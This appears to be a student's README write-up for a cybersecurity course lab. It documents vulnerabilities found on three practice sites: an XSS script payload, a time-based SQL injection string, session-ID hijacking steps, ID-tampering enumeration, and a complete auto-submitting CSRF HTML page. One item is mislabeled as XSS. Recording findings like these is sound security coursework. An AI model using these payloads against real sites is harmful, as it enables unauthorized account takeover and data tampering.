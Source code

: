 # Unit-9-Cybersecurity

# Green:

Vulnerability 1: Cross-Site Scripting (XSS)

Go to Contact section and submit a feedback with <script>alert('XSS
ALERT');</script>
Log into admin and once you click the feedback section, it will trigger a popup

Vulnerability 2: Cross-Site Scripting (XSS)

Go to log in page, if you enter the correct username, but inccorect
password, "Log in was unsuccessful" will be bolded
If you enter an invalid username and incorrect password, it wouldn't be bolded.

# Blue:

Vulnerability 1: Session Hijacking/Fixation

In one browser (Chrome), we log in normally but then copy the current
PHPSESSIONID.
Use another browser (Safari in this case) which was NOT logged in and
change the PHPSESSIONID we got from Chrome.
It will show that it was automatically logged into the system in the
Safari without entering the password and username.

Vulnerability 2: SQL Injection

Go to the salesperson tab
Select a random salesperson and add this at the end of the url ' OR
SLEEP(5)=0--'
The current browser will change in 5 seconds

# Red:

Vulnerability 1: User Enumeration

Log in and then go to sales person's page
Click into any salesperson to get their ID and change it to 11 or 12;
these information shouldn't be public to everyone
Log out and go to the public site
Click into any salesperson and change their ID to 11 or 12 and we will
get that information when public user shouldn't supposed to
<img src="red-exploit-1.gif" alt="Challenge 1">


Vulnerability 2: Cross-Site Request Forgery (CSRF)

Create a html page with the code below

<html>
  <head>
    <title>A Totally Blank Page</title>
  </head>
  <body onload="document.CSRF.submit()">
<form action="https://104.198.208.81/red/public/staff/salespeople/edit.php?id=5"
method="post" style="display: none;" name='CSRF' target="res">
    <input type="text" name="first_name" value="HACKED" />
      <input type="text" name="last_name" value="WAS HACKED" />
      <input type="text" name="phone" value="111-111-2222" />
      <input type="text" name="email" value="HACKED@HACKED.com" />
</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html>


User submit a feedback with a url that links to the html page
Admin log into site and visit the attached feedback url
By visiting the page, it will attack and change salesperson with the ID 5's info


